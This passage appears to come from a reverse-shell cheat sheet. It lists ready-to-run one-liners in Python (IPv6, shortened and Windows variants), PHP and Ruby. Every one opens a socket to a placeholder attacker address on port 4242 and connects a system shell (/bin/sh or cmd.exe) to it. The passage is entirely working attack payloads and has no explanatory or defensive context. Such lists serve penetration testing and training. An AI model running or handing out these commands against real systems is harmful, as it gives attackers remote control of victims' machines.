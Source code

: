 
### IPv6
* ```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```{.Reverse_Shells_Code_Block}

### IPv6 (No Spaces)
* ```python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```{.Reverse_Shells_Code_Block}

### IPv6 (No Spaces, Shortened)
* ```python -c 'a=__import__;c=a("socket");o=a("os").dup2;p=a("pty").spawn;s=c.socket(c.AF_INET6,c.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'```{.Reverse_Shells_Code_Block}

### Windows only (Python3)
* ```python.exe -c "import socket,os,threading,subprocess as sp;p=sp.Popen(['cmd.exe'],stdin=sp.PIPE,stdout=sp.PIPE,stderr=sp.STDOUT);s=socket.socket();s.connect(('10.0.0.1',4242));threading.Thread(target=exec,args=(\"while(True):o=os.read(p.stdout.fileno(),1024);s.send(o)\",globals()),daemon=True).start();threading.Thread(target=exec,args=(\"while(True):i=s.recv(1024);os.write(p.stdin.fileno(),i)\",globals())).start()"```{.Reverse_Shells_Code_Block}

## PHP
* ```php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'```{.Reverse_Shells_Code_Block}

* ```php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'```{.Reverse_Shells_Code_Block}

## Ruby
* ```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```{.Reverse_Shells_Code_Block}

* ```ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'```{.Reverse_Shells_Code_Block}
